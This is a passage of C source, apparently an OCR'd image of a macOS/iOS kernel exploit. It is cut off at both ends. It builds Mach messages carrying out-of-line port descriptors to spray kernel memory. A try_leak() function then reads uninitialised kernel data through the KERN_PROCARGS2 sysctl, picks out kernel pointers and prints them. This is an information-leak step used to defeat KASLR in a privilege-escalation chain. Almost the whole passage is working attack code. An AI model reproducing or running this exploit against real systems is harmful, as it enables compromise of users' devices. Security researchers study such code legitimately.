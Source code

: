 ```
    
    struct ool_msg* msg = (ool_msg*)calloc(1, sizeof(struct ool_msg));
    
    msg->hdr.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->hdr.msgh_size = (mach_msg_size_t)sizeof(struct ool_msg);
    msg->hdr.msgh_remote_port = q;
    msg->hdr.msgh_local_port = MACH_PORT_NULL;
    msg->hdr.msgh_id = 0x41414141;
    
    msg->body.msgh_descriptor_count = 1;
    
    msg->ool_ports.address = ports;
    msg->ool_ports.count = count;
    msg->ool_ports.deallocate = 0;
    msg->ool_ports.disposition = disposition;
    msg->ool_ports.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
    msg->ool_ports.copy = MACH_MSG_PHYSICAL_COPY;
    
    err = mach_msg(&msg->hdr,
                   MACH_SEND_MSG|MACH_MSG_OPTION_NONE,
                   (mach_msg_size_t)sizeof(struct ool_msg),
                   0,
                   MACH_PORT_NULL,
                   MACH_MSG_TIMEOUT_NONE,
                   MACH_PORT_NULL);
    
    if (err != KERN_SUCCESS) {
        printf(" [-] failed to send message: %s\n", mach_error_string(err));
        exit(EXIT_FAILURE);
    }
    
    return q;
}


bool try_leak()
{
    int pid = getpid();
    int name[3] = {CTL_KERN, KERN_PROCARGS2, pid};
    uint8_t oldp[0x104] = {0};
    size_t oldplen = 0x104;
    
    sysctl(name, 3, oldp, &oldplen, NULL, 0);
    
    uint32_t p_argc = *(uint32_t*)oldp;
    //printf("argc: %d\n", p_argc);
    //printf("count: %d\n", oldplen);
    
    uint64_t* p_obj = (uint64_t*)(oldp+4);
    bool leak = true;
    
    for (int i=0; i<0x100/8; i++) {
        if ((p_obj[i] > 0xffffff0000000000 && ((p_obj[i] & 0x7) == 0)) == false) {
            //printf("0x%llx\n", p_obj[i]);
            leak = false;
            break;
        }
    }
    
    if (leak) {
        p_obj = (uint64_t*)(oldp+4);
        for (int i=0; i<0x100/8; i+=2) {
            printf("0x%llx 0x%llx\n", p_obj[i], p_obj[i+1]);
```